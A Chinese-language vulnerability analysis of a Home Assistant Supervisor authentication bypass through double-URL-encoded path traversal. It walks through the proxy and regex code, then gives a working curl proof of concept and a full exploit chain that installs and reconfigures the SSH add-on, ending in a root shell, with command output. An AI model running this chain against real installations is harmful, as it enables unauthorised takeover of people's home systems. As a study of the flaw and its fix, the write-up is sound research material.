

# 漏洞说明

Home Assistant是一套开源的家庭自动化管理系统。该系统主要用于控制家庭自动化设备。  
Home Assistant Supervisor 2023.01.1之前版本存在授权问题漏洞，该漏洞源于存在身份验证绕过漏洞。

# 漏洞影响版本

Home Assistant Supervisor < 2023.01.1

# 漏洞分析

## 源码分析

这是一个权限验证的问题，其实也是一个路径遍历引起的问题，在最新版本可以看到补丁，我们直接用2023.2.0进行分析：  
在http.py文件中我们可以看到有几个正则表达式：  
  
然后继续往下看：

    
    
    class HassIOView(HomeAssistantView):
        """Hass.io view to handle base part."""
    
        name = "api:hassio"
        url = "/api/hassio/{path:.+}"
        requires_auth = False
    
        def __init__(self, host: str, websession: aiohttp.ClientSession) -> None:
            """Initialize a Hass.io base view."""
            self._host = host
            self._websession = websession
    
        async def _handle(
            self, request: web.Request, path: str
        ) -> web.Response | web.StreamResponse:
            """Route data to Hass.io."""
            hass = request.app["hass"]
            if _need_auth(hass, path) and not request[KEY_AUTHENTICATED]:
                return web.Response(status=HTTPStatus.UNAUTHORIZED)
    
            return await self._command_proxy(path, request)
    
        delete = _handle
        get = _handle
        post = _handle
    
        async def _command_proxy(
            self, path: str, request: web.Request
        ) -> web.StreamResponse:
            """Return a client request with proxy origin for Hass.io supervisor.
    
            This method is a coroutine.
            """
            headers = _init_header(request)
            if path == "backups/new/upload":
                # We need to reuse the full content type that includes the boundary
                headers[
                    CONTENT_TYPE
                ] = request._stored_content_type  # pylint: disable=protected-access
    
            try:
                client = await self._websession.request(
                    method=request.method,
                    url=f"http://{self._host}/{path}",
                    params=request.query,
                    data=request.content,
                    headers=headers,
                    timeout=_get_timeout(path),
                )
    
                # Stream response
                response = web.StreamResponse(
                    status=client.status, headers=_response_header(client, path)
                )
                response.content_type = client.content_type
    
                await response.prepare(request)
                async for data in client.content.iter_chunked(4096):
                    await response.write(data)
    
                return response
    
            except aiohttp.ClientError as err:
                _LOGGER.error("Client error on api %s request %s", path, err)
    
            except asyncio.TimeoutError:
                _LOGGER.error("Client timeout error on API request %s", path)
    
            raise HTTPBadGateway()
    

这段代码的作用相信大家都能看懂，首先映入眼帘的就是几个正则表达式：  
  
然后就是构造函数初始化，其中有一个aiohttp.ClientSession的实例websession，host是主机地址，接下来的handle从注释上看就是一个路由，再往下的_command_proxy就是代理了。  
这段代码的作用就是将http请求代理到Hass.io supervisor（在注释Return a client request with proxy
origin for Hass.io supervisor中已经写得很明了），具体实现方法是这个：_command_proxy。  
在代码的75行或者上面代码块的21行调用了这个方法进行返回，那么我们看看前面是怎么做的。  
代码的第59行或者上面代码块的第5行定义了一个名为url的字符串：  
url =
"/api/hassio/{path:.+}"，这其中包含了正则表达式，也就是说传入的数据可以是/api/hassio/后拼接一个路径，这个路径是很危险的，因为可以包含"/"这样一个东西，不过这里还不足以证明漏洞，要看拼接的path是否有危害就继续来看这个path是怎么来的。  
在handle这个方法中我们第一次看到了path的出现，紧接着是一个if方法调用了_need_auth方法：  
  
从名字上和返回值上看的确像是一个权限认证的方法，直接跳过去看看：  
果然在最下方看到了这个鉴权用的函数，接受一个字符串类型的path，这可要仔细看看。

    
    
    def _need_auth(hass, path: str) -> bool:
        """Return if a path need authentication."""
        if not async_is_onboarded(hass) and NO_AUTH_ONBOARDING.match(path):
            return False
        if NO_AUTH.match(path):
            return False
        return True
    

这里使用了一个match函数来判断这个path，那么是用什么来match的呢，一看原来是最开始的两个正则表达式：  
  
稳得很啊老铁app/.*那不就是任意字符串么拼接一个../就是目录穿越了。  
那么也就是说传入的path能和NO_AUTH的正则匹配上，那就可以返回false跳过权限认证，在线测试一下：  
  
果然是可行的！  
既然这里可以进行攻击，那么就要看传入的数据有没有被过滤了，全局搜索filter相关字段，最后在http目录下的security_filter.py中发现了过滤请求用的正则表达式：  
  
很显然，对文件的过滤并没有包含双重url编码，比如：r"|(%25|%252E|%2E){2,}/?+"也就是说可以绕过。  
poc：  
curl <http://127.0.0.1:8123/api/hassio/app/.%252e/supervisor/info>

另外此漏洞还可以配合[addon-ssh](https://github.com/hassio-addons/addon-ssh)组件进行RCE  
利用链为：

    
    
    /api/hassio/app/.%252e/store/addons/a0d7b954_ssh/install
    /api/hassio/app/.%252e/addons/a0d7b954_ssh/security -H 'Content-Type: application/json' -d '{"protected":"false"}'
    /api/hassio/app/.%252e/addons/a0d7b954_ssh/options -H 'Content-Type: application/json' -d '{"options":{"init_commands":[],"packages":[],"share_sessions":false,"ssh":{"allow_agent_forwarding":false,"allow_remote_port_forwarding":false,"allow_tcp_forwarding":false,"authorized_keys":[],"compatibility_mode":false,"password":"hunter2","sftp":false,"username":"hassio"},"zsh":true}}'
    /api/hassio/app/.%252e/addons/a0d7b954_ssh/restart
    ssh连接
    
    也就是
    # curl -X POST http://127.0.0.1:8123/api/hassio/app/.%252e/store/addons/a0d7b954_ssh/install
    {"result": "ok", "data": {}}
    # curl -X POST http://127.0.0.1:8123/api/hassio/app/.%252e/addons/a0d7b954_ssh/security -H 'Content-Type: application/json' -d '{"protected":"false"}'
    {"result": "ok", "data": {}}
    # curl -X POST http://127.0.0.1:8123/api/hassio/app/.%252e/addons/a0d7b954_ssh/options -H 'Content-Type: application/json' -d '{"options":{"init_commands":[],"packages":[],"share_sessions":false,"ssh":{"allow_agent_forwarding":false,"allow_remote_port_forwarding":false,"allow_tcp_forwarding":false,"authorized_keys":[],"compatibility_mode":false,"password":"hunter2","sftp":false,"username":"hassio"},"zsh":true}}'
    {"result": "ok", "data": {}}
    # curl -X POST http://127.0.0.1:8123/api/hassio/app/.%252e/addons/a0d7b954_ssh/restart
    {"result": "ok", "data": {}}
    # ssh 127.0.0.1 -p22 -lhassio
    The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
    ED25519 key fingerprint is SHA256:cndiIDNABHXCYDKFJdnjKIO/+njktdnBHXJZI+nnjkX.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '127.0.0.1' (ED25519) to the list of known hosts.
    hassio@127.0.0.1's password:
    
    | |  | |                          /\           (_)   | |            | |
    | |__| | ___  _ __ ___   ___     /  \   ___ ___ _ ___| |_ __ _ _ __ | |_
    |  __  |/ _ \| '_ \ _ \ / _ \   / /\ \ / __/ __| / __| __/ _\ | '_ \| __|
    | |  | | (_) | | | | | |  __/  / ____ \\__ \__ \ \__ \ || (_| | | | | |_
    |_|  |_|\___/|_| |_| |_|\___| /_/    \_\___/___/_|___/\__\__,_|_| |_|\__|
    
    Welcome to the Home Assistant command line.
    
    System information
    IPv4 addresses for enp0s3: 127.0.0.1/24
    IPv6 addresses for enp0s3: fe80::494d:126b:afb:d3a7/64
    
    OS Version:               Home Assistant OS 9.5
    Home Assistant Core:      2023.2.5
    
    Home Assistant URL:       http://homeassistant.local:8123
    Observer URL:             http://homeassistant.local:4357
    ➜  ~ id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

## 总结

该漏洞核心在于鉴权的时候对参数的过滤不当，发现漏洞可以从鉴权的角度出发，比如此发现此漏洞的研究人员从async_setup_authhomeassistant/components/http/auth.py中获得了启发，进一步寻找鉴权点进行漏洞的寻找。  
在系统中，如果采用正则表达式的方式来进行权限的赋予或判断，则需要考虑多种情况（二次编码，unix系统下的大小写等等），但是简单的办法还是禁止api等一些关键接口对外进行暴漏（即使内网环境下也仍需要加以斟酌）.

### 参考链接

<https://github.com/home-assistant/core/security/advisories/GHSA-2j8f-h4mr-qr25>  
<https://www.home-assistant.io/blog/2023/03/08/supervisor-security-disclosure/>

